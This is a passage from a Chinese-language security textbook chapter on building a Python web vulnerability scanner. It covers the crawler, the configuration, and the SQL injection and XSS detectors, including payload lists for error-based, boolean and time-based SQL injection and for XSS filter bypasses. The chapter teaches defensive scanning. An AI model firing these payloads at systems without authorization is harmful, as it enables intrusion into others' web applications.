

# 33.7 Web漏洞扫描器开发

## 为什么需要自己开发Web漏洞扫描器

Web漏洞扫描器是安全工具体系中最核心、最实用的一类。市面上虽然有Burp Suite Pro、AWVS、Nessus等商业工具，以及OWASP ZAP、Nikto等开源工具，但在以下场景中，自研扫描器是唯一选择：

- **自定义业务逻辑漏洞检测**：商业扫描器无法理解你的业务语义（如"优惠券重复使用"、"越权查看他人订单"）
- **内网专用扫描**：针对内部系统的特定框架、自研CMS编写专用检测规则
- **CI/CD集成**：将漏洞检测嵌入发布流水线，要求轻量化、可编程、可定制输出格式
- **合规审计自动化**：按特定安全标准（等保2.0、PCI-DSS）自动生成合规检查报告

自研扫描器还有一个被低估的价值：**开发过程本身就是最深度的安全学习**。要写好一个SQL注入检测器，你必须深入理解MySQL、PostgreSQL、SQL Server的语法差异，理解时间盲注与布尔盲注的原理区别，理解WAF的过滤机制。这些知识是使用现成工具永远无法获得的。

## 扫描器架构设计

### 核心模块划分

一个专业的Web漏洞扫描器由五大模块协作完成：



### 扫描策略：主动扫描 vs 被动扫描

| 特性 | 主动扫描 | 被动扫描 |
|------|----------|----------|
| 原理 | 向目标发送特制payload，分析响应 | 监听正常流量，从中识别漏洞特征 |
| 流量特征 | 产生大量异常请求，易被WAF检测 | 零额外流量，完全隐蔽 |
| 检测范围 | 可覆盖SQL注入、XSS、命令注入等 | 主要检测信息泄露、不安全cookie、混合内容 |
| 适用场景 | 授权渗透测试、漏洞验证 | 生产环境监控、代码审查辅助 |
| 代表工具 | SQLMap、AWVS | Burp Suite被动扫描、OWASP ZAP被动扫描 |

本章的扫描器以**主动扫描**为核心，同时集成基本的被动检测能力（检查HTTP响应头安全性、Cookie属性等）。

### 认证扫描支持

真实Web应用几乎都有登录墙。一个无法处理认证的扫描器在实际项目中毫无用处。认证扫描的三种主要方式：

| 方式 | 实现复杂度 | 适用场景 | 优点 | 缺点 |
|------|-----------|----------|------|------|
| Cookie注入 | 低 | 已有登录凭据，直接注入session cookie | 简单直接 | Cookie过期后需重新获取 |
| 自动登录 | 中 | 有用户名/密码，模拟登录获取session | 自动化程度高 | 登录流程变化时需适配 |
| 浏览器集成 | 高 | 复杂认证（OAuth、MFA、验证码） | 能处理几乎所有认证方式 | 速度慢、资源消耗大 |

本章实现Cookie注入和自动登录两种方式，足以覆盖90%的实际场景。

## 完整代码实现

### 项目结构

```text
webscanner/
├── webscanner/
│   ├── __init__.py
│   ├── crawler.py          # 爬虫模块：URL发现、表单提取、参数收集
│   ├── detector.py         # 漏洞检测引擎：多类型漏洞检测
│   ├── detector_sqli.py    # SQL注入专用检测器（子模块）
│   ├── detector_xss.py     # XSS专用检测器（子模块）
│   ├── reporter.py         # 报告生成：HTML/JSON/SARIF/Markdown
│   ├── auth.py             # 认证管理：Cookie注入、自动登录
│   ├── rate_limiter.py     # 速率控制：防止目标过载
│   ├── dedup.py            # 去重引擎：URL和漏洞去重
│   ├── logger.py           # 日志模块：审计追踪
│   └── utils.py            # 工具函数
├── payloads/
│   ├── sqli_error.txt      # 基于错误的SQL注入payload
│   ├── sqli_union.txt      # UNION注入payload
│   ├── sqli_time.txt       # 时间盲注payload
│   ├── sqli_boolean.txt    # 布尔盲注payload
│   ├── xss_reflected.txt   # 反射型XSS payload
│   ├── xss_stored.txt      # 存储型XSS payload
│   ├── lfi_unix.txt        # Unix文件包含payload
│   ├── lfi_windows.txt     # Windows文件包含payload
│   ├── ssrf.txt            # SSRF payload
│   ├── cmdi.txt            # 命令注入payload
│   ├── redirect.txt        # 开放重定向payload
│   └── xxe.txt             # XXE payload
├── config.py               # 配置文件
├── scanner.py              # 主程序入口
├── requirements.txt        # 依赖列表
└── tests/
    ├── test_crawler.py     # 爬虫单元测试
    ├── test_detector.py    # 检测器单元测试
    └── test_dvwa.py        # 靶场集成测试
```

### 配置模块

```python
"""
配置管理模块
支持命令行参数、配置文件、环境变量三级覆盖
"""

import os
import json
from dataclasses import dataclass, field, asdict
from typing import Optional


@dataclass
class ScannerConfig:
    """扫描器配置"""
    
    # === 目标配置 ===
    target_url: str = ""
    output_file: str = "report.html"
    output_format: str = "html"  # html, json, sarif, markdown
    
    # === 爬虫配置 ===
    crawl_depth: int = 3            # 最大爬取深度
    max_urls: int = 500             # 最大URL数量上限（防止无限爬取）
    max_threads: int = 10           # 并发线程数
    timeout: int = 10               # 请求超时（秒）
    follow_redirects: bool = True   # 是否跟随重定向
    max_redirects: int = 5          # 最大重定向次数
    respect_robots: bool = True     # 是否遵守robots.txt
    
    # === 检测配置 ===
    detect_sqli: bool = True        # 检测SQL注入
    detect_xss: bool = True         # 检测XSS
    detect_lfi: bool = True         # 检测文件包含
    detect_ssrf: bool = True        # 检测SSRF
    detect_cmdi: bool = True        # 检测命令注入
    detect_redirect: bool = True    # 检测开放重定向
    detect_xxe: bool = True         # 检测XXE
    detect_headers: bool = True     # 检测HTTP头安全
    detect_cookies: bool = True     # 检测Cookie安全
    risk_threshold: str = "low"     # 报告的最低风险等级: low, medium, high
    
    # === 速率控制 ===
    requests_per_second: float = 10.0   # 每秒最大请求数
    burst_size: int = 20                # 突发请求上限
    
    # === 认证配置 ===
    auth_type: Optional[str] = None     # none, cookie, login
    auth_cookie: Optional[str] = None   # Cookie注入模式
    auth_url: Optional[str] = None      # 登录URL
    auth_username: Optional[str] = None
    auth_password: Optional[str] = None
    
    # === 代理配置 ===
    proxy: Optional[str] = None         # 代理地址，如 http://127.0.0.1:8080
    verify_ssl: bool = False            # 是否验证SSL证书
    
    # === User-Agent ===
    user_agent: str = (
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) "
        "AppleWebKit/537.36 (KHTML, like Gecko) "
        "Chrome/120.0.0.0 Safari/537.36"
    )
    
    # === 高级选项 ===
    custom_headers: dict = field(default_factory=dict)
    excluded_urls: list = field(default_factory=list)  # 排除的URL模式
    included_urls: list = field(default_factory=list)  # 仅扫描的URL模式（正则）
    
    def to_dict(self) -> dict:
        """转换为字典"""
        return asdict(self)
    
    @classmethod
    def from_file(cls, filepath: str) -> 'ScannerConfig':
        """从JSON配置文件加载"""
        with open(filepath, 'r') as f:
            data = json.load(f)
        return cls(**{k: v for k, v in data.items() if k in cls.__dataclass_fields__})
    
    @classmethod
    def from_env(cls) -> 'ScannerConfig':
        """从环境变量加载（前缀 WEBSCANNER_）"""
        config = cls()
        prefix = "WEBSCANNER_"
        for field_name in cls.__dataclass_fields__:
            env_key = prefix + field_name.upper()
            env_val = os.environ.get(env_key)
            if env_val is not None:
                field_type = type(getattr(config, field_name))
                if field_type == bool:
                    setattr(config, field_name, env_val.lower() in ('true', '1', 'yes'))
                elif field_type == int:
                    setattr(config, field_name, int(env_val))
                elif field_type == float:
                    setattr(config, field_name, float(env_val))
                else:
                    setattr(config, field_name, env_val)
        return config
```

### 爬虫模块

爬虫是扫描器的"眼睛"——它决定了扫描器能看到多少攻击面。一个差的爬虫会漏掉大量URL和参数，导致后续检测形同虚设。

```python
"""
Web爬虫模块
功能：自动爬取网站链接、表单、参数，构建攻击面地图
"""

import re
import time
import logging
from urllib.parse import urljoin, urlparse, parse_qs, urlencode
from bs4 import BeautifulSoup
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

logger = logging.getLogger(__name__)


class WebCrawler:
    """深度优先Web爬虫，支持多线程、表单提取、JavaScript链接发现"""
    
    def __init__(self, base_url: str, config):
        self.base_url = base_url
        self.config = config
        self.visited_urls = set()
        self.found_urls = set()
        self.found_forms = []
        self.found_params = {}  # url -> [param_names]
        self.session = requests.Session()
        self.session.headers.update({
            'User-Agent': config.user_agent,
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
            'Accept-Encoding': 'gzip, deflate',
        })
        
        # 代理配置
        if config.proxy:
            self.session.proxies = {
                'http': config.proxy,
                'https': config.proxy,
            }
        
        # SSL验证配置
        self.session.verify = config.verify_ssl
        
        # Cookie注入认证
        if config.auth_type == 'cookie' and config.auth_cookie:
            for cookie_pair in config.auth_cookie.split(';'):
                cookie_pair = cookie_pair.strip()
                if '=' in cookie_pair:
                    name, value = cookie_pair.split('=', 1)
                    self.session.cookies.set(name.strip(), value.strip())
        
        # 静态资源扩展名过滤列表
        self.static_extensions = {
            '.css', '.js', '.jpg', '.jpeg', '.png', '.gif', '.ico',
            '.svg', '.woff', '.woff2', '.ttf', '.eot', '.mp3', '.mp4',
            '.avi', '.mov', '.pdf', '.doc', '.docx', '.xls', '.xlsx',
            '.zip', '.tar', '.gz', '.rar', '.7z',
        }
    
    def crawl(self) -> tuple:
        """
        执行爬取，返回 (urls, forms, params)
        urls: set of unique URLs
        forms: list of form dicts
        params: dict of url -> [param_names]
        """
        logger.info(f"[*] Starting crawl: {self.base_url} (max_depth={self.config.crawl_depth})")
        self._crawl_bfs(self.base_url)
        logger.info(f"[+] Crawl complete: {len(self.found_urls)} URLs, "
                    f"{len(self.found_forms)} forms, "
                    f"{sum(len(v) for v in self.found_params.values())} parameters")
        return self.found_urls, self.found_forms, self.found_params
    
    def _crawl_bfs(self, start_url: str):
        """广度优先爬取（相比递归DFS更适合控制深度和并发）"""
        queue = [(start_url, 0)]
        
        while queue:
            # 批量处理同一层级的URL（控制并发）
            batch = []
            while queue and len(batch) < self.config.max_threads:
                url, depth = queue.pop(0)
                if url not in self.visited_urls and self._is_same_domain(url):
                    batch.append((url, depth))
            
            if not batch:
                break
            
            with ThreadPoolExecutor(max_workers=min(len(batch), self.config.max_threads)) as executor:
                futures = {}
                for url, depth in batch:
                    self.visited_urls.add(url)
                    futures[executor.submit(self._fetch_and_parse, url, depth)] = url
                
                for future in as_completed(futures):
                    try:
                        child_urls, child_forms, child_params = future.result()
                        for child_url, child_depth in child_urls:
                            if (child_url not in self.visited_urls 
                                and child_depth <= self.config.crawl_depth
                                and len(self.found_urls) < self.config.max_urls):
                                queue.append((child_url, child_depth))
                        self.found_forms.extend(child_forms)
                        self.found_params.update(child_params)
                    except Exception as e:
                        logger.error(f"[-] Error: {e}")
    
    def _fetch_and_parse(self, url: str, depth: int) -> tuple:
        """
        获取页面并解析，返回 (child_urls, child_forms, child_params)
        child_urls: list of (url, depth) tuples
        """
        try:
            response = self.session.get(
                url, 
                timeout=self.config.timeout,
                allow_redirects=self.config.follow_redirects,
                max_redirects=self.config.max_redirects,
            )
            
            # 只处理HTML响应
            content_type = response.headers.get('Content-Type', '')
            if 'text/html' not in content_type:
                return [], [], {}
            
            self.found_urls.add(url)
            
            soup = BeautifulSoup(response.text, 'html.parser')
            
            # 1. 提取链接
            child_urls = self._extract_links(soup, url, depth)
            
            # 2. 提取表单和参数
            child_forms = self._extract_forms(soup, url)
            child_params = self._extract_url_params(soup, url)
            
            # 3. 提取JavaScript中的URL和参数
            js_urls, js_params = self._extract_from_scripts(soup, url, depth)
            child_urls.extend(js_urls)
            child_params.update(js_params)
            
            # 4. 提取meta标签中的URL
            meta_urls = self._extract_meta_urls(soup, url, depth)
            child_urls.extend(meta_urls)
            
            return child_urls, child_forms, child_params
            
        except requests.exceptions.RequestException as e:
            logger.debug(f"  Request failed: {url} - {e}")
            return [], [], {}
    
    def _extract_links(self, soup: BeautifulSoup, base_url: str, depth: int) -> list:
        """提取页面中的超链接"""
        links = []
        
        # 从 <a>, <link>, <area> 标签提取
        for tag in soup.find_all(['a', 'link', 'area'], href=True):
            href = tag.get('href', '').strip()
            if not href or href.startswith(('javascript:', 'mailto:', 'tel:', '#')):
                continue
            
            absolute_url = urljoin(base_url, href)
            if self._is_valid_url(absolute_url):
                links.append((absolute_url, depth + 1))
        
        # 从 <iframe>, <frame> 标签提取
        for tag in soup.find_all(['iframe', 'frame'], src=True):
            src = tag.get('src', '').strip()
            if src:
                absolute_url = urljoin(base_url, src)
                if self._is_valid_url(absolute_url):
                    links.append((absolute_url, depth + 1))
        
        return links
    
    def _extract_forms(self, soup: BeautifulSoup, page_url: str) -> list:
        """提取页面中的表单及其输入字段"""
        forms = []
        
        for form_tag in soup.find_all('form'):
            action = form_tag.get('action', '')
            action_url = urljoin(page_url, action) if action else page_url
            
            form_data = {
                'action': action_url,
                'method': form_tag.get('method', 'get').lower(),
                'enctype': form_tag.get('enctype', 'application/x-www-form-urlencoded'),
                'inputs': [],
                'page_url': page_url,  # 记录表单所在页面（用于报告溯源）
            }
            
            # 提取所有可交互的输入字段
            for input_tag in form_tag.find_all(['input', 'textarea', 'select']):
                input_name = input_tag.get('name', '')
                if not input_name:
                    continue
                
                input_data = {
                    'name': input_name,
                    'type': input_tag.get('type', 'text').lower(),
                    'value': input_tag.get('value', ''),
                    'maxlength': input_tag.get('maxlength', ''),
                    'required': input_tag.has_attr('required'),
                }
                form_data['inputs'].append(input_data)
            
            # 记录表单参数到全局参数字典
            param_names = [inp['name'] for inp in form_data['inputs']]
            if action_url not in self.found_params:
                self.found_params[action_url] = []
            self.found_params[action_url].extend(param_names)
            
            forms.append(form_data)
        
        return forms
    
    def _extract_url_params(self, soup: BeautifulSoup, base_url: str) -> dict:
        """提取URL中的查询参数（用于识别已知的参数注入点）"""
        params = {}
        
        # 从页面中发现的URL提取参数
        for tag in soup.find_all(['a', 'link'], href=True):
            href = tag.get('href', '').strip()
            absolute_url = urljoin(base_url, href)
            parsed = urlparse(absolute_url)
            
            if parsed.query:
                param_names = list(parse_qs(parsed.query).keys())
                if absolute_url not in params:
                    params[absolute_url] = param_names
                else:
                    params[absolute_url].extend(param_names)
        
        return params
    
    def _extract_from_scripts(self, soup: BeautifulSoup, base_url: str, depth: int) -> tuple:
        """从JavaScript代码中提取URL和参数"""
        urls = []
        params = {}
        
        for script in soup.find_all('script'):
            if not script.string:
                continue
            
            # 提取硬编码的URL
            found_urls = re.findall(
                r'["\']?(https?://[^\s"\'<>]+)["\']?', 
                script.string
            )
            for found_url in found_urls:
                if self._is_valid_url(found_url):
                    urls.append((found_url, depth + 1))
            
            # 提取ajax/fetch请求中的URL和参数
            ajax_patterns = re.findall(
                r'(?:fetch|axios|ajax|XMLHttpRequest|\.get|\.post)\s*\(\s*["\']([^"\']+)["\']',
                script.string
            )
            for ajax_url in ajax_patterns:
                absolute_url = urljoin(base_url, ajax_url)
                if self._is_valid_url(absolute_url):
                    urls.append((absolute_url, depth + 1))
                    parsed = urlparse(absolute_url)
                    if parsed.query:
                        params[absolute_url] = list(parse_qs(parsed.query).keys())
            
            # 提取URL模板中的参数名（如 /api/user/{id}）
            template_params = re.findall(
                r'["\']([^"\']*\{(\w+)\}[^"\']*)["\']',
                script.string
            )
            for template, param_name in template_params:
                absolute_url = urljoin(base_url, template)
                if absolute_url not in params:
                    params[absolute_url] = []
                params[absolute_url].append(param_name)
        
        return urls, params
    
    def _extract_meta_urls(self, soup: BeautifulSoup, base_url: str, depth: int) -> list:
        """从meta标签中提取URL"""
        urls = []
        for meta in soup.find_all('meta', attrs={'http-equiv': 'refresh'}):
            content = meta.get('content', '')
            match = re.search(r'url=(.+)', content, re.IGNORECASE)
            if match:
                redirect_url = urljoin(base_url, match.group(1).strip())
                if self._is_valid_url(redirect_url):
                    urls.append((redirect_url, depth + 1))
        return urls
    
    def _is_same_domain(self, url: str) -> bool:
        """检查URL是否属于目标域名（支持子域名匹配）"""
        base_domain = urlparse(self.base_url).netloc
        url_domain = urlparse(url).netloc
        # 精确匹配或子域名匹配
        return url_domain == base_domain or url_domain.endswith('.' + base_domain)
    
    def _is_valid_url(self, url: str) -> bool:
        """检查URL是否有效且值得爬取"""
        try:
            parsed = urlparse(url)
        except ValueError:
            return False
        
        # 只处理HTTP/HTTPS
        if parsed.scheme not in ('http', 'https'):
            return False
        
        # 过滤静态资源
        path_lower = parsed.path.lower()
        if any(path_lower.endswith(ext) for ext in self.static_extensions):
            return False
        
        # 过滤锚点（保留URL本身）
        if '#' in url:
            url = url.split('#')[0]
        
        # 排除指定的URL模式
        for excluded in self.config.excluded_urls:
            if excluded in url:
                return False
        
        # 如果设置了include过滤器，只保留匹配的URL
        if self.config.included_urls:
            import re
            if not any(re.search(pattern, url) for pattern in self.config.included_urls):
                return False
        
        return True
```

### 漏洞检测引擎

检测引擎是扫描器的"大脑"。设计原则是**每种漏洞类型一个独立检测器**，通过统一接口注册，新增检测类型时无需修改核心代码。

```python
"""
漏洞检测引擎
核心设计：插件式架构，每种漏洞类型是独立的检测器
"""

import re
import random
import string
import time
import logging
from abc import ABC, abstractmethod
from urllib.parse import urlencode, urlparse, parse_qs, quote

import requests

logger = logging.getLogger(__name__)


class BaseDetector(ABC):
    """漏洞检测器基类"""
    
    name = "base"
    risk_level = "medium"
    
    @abstractmethod
    def detect_url(self, url: str, params: list, session: requests.Session, config) -> list:
        """检测URL参数中的漏洞"""
        pass
    
    @abstractmethod
    def detect_form(self, form: dict, session: requests.Session, config) -> list:
        """检测表单中的漏洞"""
        pass


class SQLInjectionDetector(BaseDetector):
    """
    SQL注入检测器
    支持四种检测模式：
    1. 基于错误的检测（Error-based）：触发数据库错误信息
    2. UNION注入检测：通过UNION SELECT获取数据
    3. 时间盲注检测：通过响应时间差异判断
    4. 布尔盲注检测：通过页面内容差异判断
    """
    
    name = "SQL Injection"
    risk_level = "High"
    
    # 不同数据库的错误特征
    SQL_ERRORS = {
        'MySQL': [
            "you have an error in your sql syntax",
            "warning: mysql",
            "mysql_fetch",
            "mysql_num_rows",
            "mysql_",
            "valid mysql result",
            "my sql client",
        ],
        'PostgreSQL': [
            "postgresql query failed",
            "pg_query",
            "pg_exec",
            "psql",
            "unterminated quoted string",
            "syntax error at or near",
        ],
        'SQL Server': [
            "unclosed quotation mark after the character string",
            "microsoft ole db provider for sql server",
            "incorrect syntax near",
            "mssql_query",
            "mssql_",
            "sql state",
        ],
        'Oracle': [
            "ora-01756",
            "ora-00933",
            "oracle error",
            "quoted string not properly terminated",
            "oracle.jdbc",
        ],
        'SQLite': [
            "sqlite3.operationalerror",
            "sqlite.",
            "unrecognized token",
            "near \":\": syntax error",
        ],
        'MS Access': [
            "microsoft access driver",
            "odbc microsoft access",
            "jet database engine",
        ],
    }
    
    # 基于错误的检测 payload
    ERROR_PAYLOADS = [
        "'",
        "''",
        "\"",
        "1' OR '1'='1",
        "1\" OR \"1\"=\"1",
        "1' OR 1=1--",
        "1' OR 1=1#",
        "1' OR 1=1/*",
        "') OR ('1'='1",
        "1' AND SLEEP(3)--",
        "1' AND 'a'='a",
        "1' AND 'a'='b",
        "1; SELECT 1--",
        "1' UNION SELECT NULL--",
        "admin'--",
        "1' WAITFOR DELAY '0:0:3'--",
    ]
    
    # 时间盲注检测 payload（注入后等待指定时间）
    TIME_PAYLOADS = [
        ("1' AND SLEEP(3)--", 3),
        ("1' AND SLEEP(5)--", 5),
        ("1'; WAITFOR DELAY '0:0:3'--", 3),
        ("1' AND (SELECT SLEEP(3) FROM dual WHERE 1=1)--", 3),
        ("1' AND BENCHMARK(5000000,SHA1('test'))--", 3),
    ]
    
    def detect_url(self, url: str, params: list, session: requests.Session, config) -> list:
        """检测URL参数中的SQL注入"""
        vulnerabilities = []
        parsed = urlparse(url)
        url_params = parse_qs(parsed.query)
        
        for param_name in params:
            if param_name not in url_params:
                continue
            
            # 1. 基于错误的检测
            vuln = self._detect_error_based(url, parsed, url_params, param_name, session, config)
            if vuln:
                vulnerabilities.append(vuln)
                continue  # 同一参数找到一个即可
            
            # 2. 基于布尔的检测（对比正常页面和注入后页面）
            vuln = self._detect_boolean_based(url, parsed, url_params, param_name, session, config)
            if vuln:
                vulnerabilities.append(vuln)
                continue
            
            # 3. 时间盲注检测
            vuln = self._detect_time_based(url, parsed, url_params, param_name, session, config)
            if vuln:
                vulnerabilities.append(vuln)
        
        return vulnerabilities
    
    def detect_form(self, form: dict, session: requests.Session, config) -> list:
        """检测表单中的SQL注入"""
        vulnerabilities = []
        text_fields = [
            inp for inp in form['inputs'] 
            if inp['type'] in ('text', 'search', 'email', 'url', 'tel', 'textarea')
        ]
        
        for payload in self.ERROR_PAYLOADS[:5]:  # 表单测试用较少payload以控制速度
            data = {}
            for field in form['inputs']:
                if field['type'] in ('text', 'search', 'email', 'url', 'tel', 'textarea'):
                    data[field['name']] = payload
                elif field['type'] == 'hidden':
                    data[field['name']] = field['value']
            
            try:
                if form['method'] == 'post':
                    response = session.post(
                        form['action'], data=data, 
                        timeout=config.timeout, allow_redirects=False
                    )
                else:
                    response = session.get(
                        form['action'], params=data, 
                        timeout=config.timeout, allow_redirects=False
                    )
                
                if self._check_sql_errors(response.text):
                    # 用一个无害的正常请求做对比，确认不是页面本身就有错误信息
                    normal_data = {k: 'test' for k in data}
                    if form['method'] == 'post':
                        normal_resp = session.post(
                            form['action'], data=normal_data,
                            timeout=config.timeout, allow_redirects=False
                        )
                    else:
                        normal_resp = session.get(
                            form['action'], params=normal_data,
                            timeout=config.timeout, allow_redirects=False
                        )
                    
                    if not self._check_sql_errors(normal_resp.text):
                        # 推断数据库类型
                        db_type = self._identify_database(response.text)
                        vulnerabilities.append({
                            'type': 'SQL Injection (Error-based)',
                            'url': form['action'],
                            'param': ', '.join(data.keys()),
                            'payload': payload,
                            'evidence': f'Database error detected ({db_type})',
                            'risk': 'High',
                            'details': {
                                'detection_method': 'Error-based',
                                'database': db_type,
                                'form_method': form['method'],
                            }
                        })
                        break
            except requests.exceptions.RequestException:
                continue
        
        return vulnerabilities
    
    def _detect_error_based(self, url, parsed, url_params, param_name, session, config) -> dict:
        """基于错误的SQL注入检测"""
        # 先获取正常响应作为基准
        try:
            normal_response = session.get(url, timeout=config.timeout, allow_redirects=False)
            has_normal_error = self._check_sql_errors(normal_response.text)
        except requests.exceptions.RequestException:
            has_normal_error = False
        
        for payload in self.ERROR_PAYLOADS:
            test_params = {k: v[0] if isinstance(v, list) else v for k, v in url_params.items()}
            test_params[param_name] = payload
            test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(test_params)}"
            
            try:
                response = session.get(test_url, timeout=config.timeout, allow_redirects=False)
                
                # 检查是否产生了新的SQL错误
                if self._check_sql_errors(response.text) and not has_normal_error:
                    db_type = self._identify_database(response.text)
                    return {
                        'type': 'SQL Injection (Error-based)',
                        'url': url,
                        'param': param_name,
                        'payload': payload,
                        'evidence': f'Database error: {db_type}',
                        'risk': 'High',
                        'details': {
                            'detection_method': 'Error-based',
                            'database': db_type,
                        }
                    }
            except requests.exceptions.RequestException:
                continue
        
        return None
    
    def _detect_boolean_based(self, url, parsed, url_params, param_name, session, config) -> dict:
        """布尔盲注检测：对比 true/false 条件下的页面差异"""
        test_params = {k: v[0] if isinstance(v, list) else v for k, v in url_params.items()}
        
        true_payloads = ["1 AND 1=1", "1' AND '1'='1", "1 AND 1=1--"]
        false_payloads = ["1 AND 1=2", "1' AND '1'='2", "1 AND 1=2--"]
        
        for true_p, false_p in zip(true_payloads, false_payloads):
            try:
                # 正常条件
                params_true = test_params.copy()
                params_true[param_name] = true_p
                url_true = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(params_true)}"
                resp_true = session.get(url_true, timeout=config.timeout, allow_redirects=False)
                
                # 异常条件
                params_false = test_params.copy()
                params_false[param_name] = false_p
                url_false = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(params_false)}"
                resp_false = session.get(url_false, timeout=config.timeout, allow_redirects=False)
                
                # 如果两个响应有显著差异（长度差超过20%或内容不同）
                len_true = len(resp_true.text)
                len_false = len(resp_false.text)
                
                if len_true > 0 and len_false > 0:
                    diff_ratio = abs(len_true - len_false) / max(len_true, len_false)
                    # 额外验证：移除动态内容（时间戳等）后比较
                    content_true = self._strip_dynamic_content(resp_true.text)
                    content_false = self._strip_dynamic_content(resp_false.text)
                    
                    if diff_ratio > 0.2 or content_true != content_false:
                        # 再做一次反向验证：false条件是否真的导致不同
                        return {
                            'type': 'SQL Injection (Boolean-based)',
                            'url': url,
                            'param': param_name,
                            'payload': true_p,
                            'evidence': f'Page differs: true={len_true}b vs false={len_false}b',
                            'risk': 'High',
                            'details': {
                                'detection_method': 'Boolean-based blind',
                                'true_length': len_true,
                                'false_length': len_false,
                                'diff_ratio': round(diff_ratio, 3),
                            }
                        }
            except requests.exceptions.RequestException:
                continue
        
        return None
    
    def _detect_time_based(self, url, parsed, url_params, param_name, session, config) -> dict:
        """时间盲注检测"""
        test_params = {k: v[0] if isinstance(v, list) else v for k, v in url_params.items()}
        
        # 先测量正常响应时间（取3次平均值）
        response_times = []
        for _ in range(3):
            try:
                start = time.time()
                session.get(url, timeout=config.timeout, allow_redirects=False)
                response_times.append(time.time() - start)
            except requests.exceptions.RequestException:
                continue
        
        if not response_times:
            return None
        
        avg_time = sum(response_times) / len(response_times)
        
        for payload, sleep_time in self.TIME_PAYLOADS:
            test_params[param_name] = payload
            test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(test_params)}"
            
            try:
                start = time.time()
                session.get(test_url, timeout=config.timeout + sleep_time + 5, allow_redirects=False)
                elapsed = time.time() - start
                
                # 如果响应时间显著长于正常时间（至少多出sleep_time的80%）
                if elapsed > avg_time + sleep_time * 0.8:
                    return {
                        'type': 'SQL Injection (Time-based blind)',
                        'url': url,
                        'param': param_name,
                        'payload': payload,
                        'evidence': f'Response delay: {elapsed:.2f}s (normal: {avg_time:.2f}s)',
                        'risk': 'High',
                        'details': {
                            'detection_method': 'Time-based blind',
                            'response_time': round(elapsed, 2),
                            'normal_time': round(avg_time, 2),
                            'expected_sleep': sleep_time,
                        }
                    }
            except requests.exceptions.RequestException:
                continue
        
        return None
    
    def _check_sql_errors(self, text: str) -> bool:
        """检查响应文本中是否包含SQL错误信息"""
        text_lower = text.lower()
        for db_type, errors in self.SQL_ERRORS.items():
            for error in errors:
                if error in text_lower:
                    return True
        return False
    
    def _identify_database(self, text: str) -> str:
        """根据错误信息推断数据库类型"""
        text_lower = text.lower()
        for db_type, errors in self.SQL_ERRORS.items():
            for error in errors:
                if error in text_lower:
                    return db_type
        return "Unknown"
    
    def _strip_dynamic_content(self, html: str) -> str:
        """去除HTML中的动态内容（时间戳、token等），便于布尔比较"""
        # 移除注释
        html = re.sub(r'<!--.*?-->', '', html, flags=re.DOTALL)
        # 移除脚本
        html = re.sub(r'<script.*?>.*?</script>', '', html, flags=re.DOTALL | re.IGNORECASE)
        # 移除时间戳格式的内容
        html = re.sub(r'\d{4}[-/]\d{2}[-/]\d{2}[T ]\d{2}:\d{2}:\d{2}', 'TIMESTAMP', html)
        # 移除随机token（32位十六进制）
        html = re.sub(r'[a-f0-9]{32}', 'TOKEN', html, flags=re.IGNORECASE)
        return html.strip()


class XSSDetector(BaseDetector):
    """
    跨站脚本(XSS)检测器
    支持反射型XSS和DOM型XSS检测
    """
    
    name = "Cross-Site Scripting (XSS)"
    risk_level = "Medium"
    
    # XSS payload模板：使用标记(MARKER)验证反射
    PAYLOADS = [
        # 基础标签注入
        '<script>alert("{{MARKER}}")</script>',
        '',
        '<svg onload=alert("{{MARKER}}")>',
        '<body onload=alert("{{MARKER}}")>',
        '<iframe src="javascript:alert(\'{{MARKER}}\')">',
        
        # 事件处理器注入
        '<div onmouseover=alert("{{MARKER}}")>hover</div>',
        '<input onfocus=alert("{{MARKER}}") autofocus>',
        '<details open ontoggle=alert("{{MARKER}}")>',
        
        # 属性注入
        '" onmouseover="alert(\'{{MARKER}}\')"',
        "' onmouseover='alert(\"{{MARKER}}\")' ",
        '"><script>alert("{{MARKER}}")</script>',
        
        # 编码绕过
        '<script>eval(atob("YWxlcnQoIntNQVJLRVJ9KQ=="))</script>',
        '<a href="javascript:alert(\'{{MARKER}}\')">click</a>',
        'javascript:alert("{{MARKER}}")',
        
        # SVG变体
        '<svg><script>alert("{{MARKER}}")</script></svg>',
        '<svg/onload=alert("{{MARKER}}")>',
        
        # Unicode/HTML实体绕过
        '\u003cscript\u003ealert("{{MARKER}}")\u003c/script\u003e',
        '&#60;script&#62;alert("{{MARKER}}")&#60;/script&#62;',
    ]
    
    # 安全过滤的绕过测试
    FILTER_BYPASS_PAYLOADS = [
